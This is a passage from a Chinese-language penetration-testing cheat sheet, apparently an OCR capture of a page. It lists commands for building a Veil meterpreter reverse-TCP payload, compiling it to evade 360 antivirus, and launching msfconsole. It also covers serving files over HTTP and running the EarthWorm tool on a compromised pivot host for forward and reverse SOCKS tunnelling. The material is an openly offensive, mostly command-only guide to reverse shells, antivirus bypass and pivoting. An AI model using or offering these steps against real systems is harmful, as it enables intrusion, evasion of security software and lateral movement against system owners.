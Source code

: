 > > apt-get install wine32
>
> 生成shell
>
> > ./Veil.py
> >
> > use 1
> >
> > use c/meterpreter/rev_tcp 
>
> 在 win 用 mingw 下 gcc 编译 bypass 360
>
> > gcc -o v.exe v.c -lws2_32 
>
> 使用之前生成的 veil.rc
>
> > msfconsole -r veil.rc
>
> 一句话开启 http 服务，虚拟机里开启，在外访问虚拟机 ip 即可下载虚拟机文件：
>
> > ```
> > python -m SimpleHTTPServer 80
> > ```
>
> ### ew
>
> tools: 
>
> > http://rootkiter.com/EarthWorm
>
> 新版 tools： 
>
> > http://rootkiter.com/Termite/
>
> ****正向：****
>
> **被攻击机(跳板)：** 
>
> temp 目录下:
>
> > unzip ew.zip
> >
> > file /sbin/init (查看 linux 位数)
> >
> > chmod 755 ew_for_Linux
> >
> > ./ew_for_Linux -s ssocksd -l 9999 (侦听 0.0.0.0:9999)
> >
> > netstat -pantu|grep 9999 (查看是否侦听成功)
>
> **攻击机：**
>
> > proxychain 设置 socks5 为跳板 ip port
> >
> > proxychain nmap 即可以用跳板代理扫描其他主机
>
> ****反向：****
>
> **攻击机：**
>
> > chmod 777 ./ew_for_linux64
> >
> > ./ew_for_linux -s rcsocks -l 1080 -e 2333 即被攻击机连接本机 2333 端口，转发到本机的 1080 端口，访问本机的 1080 端口，相当访问被攻击机的 2333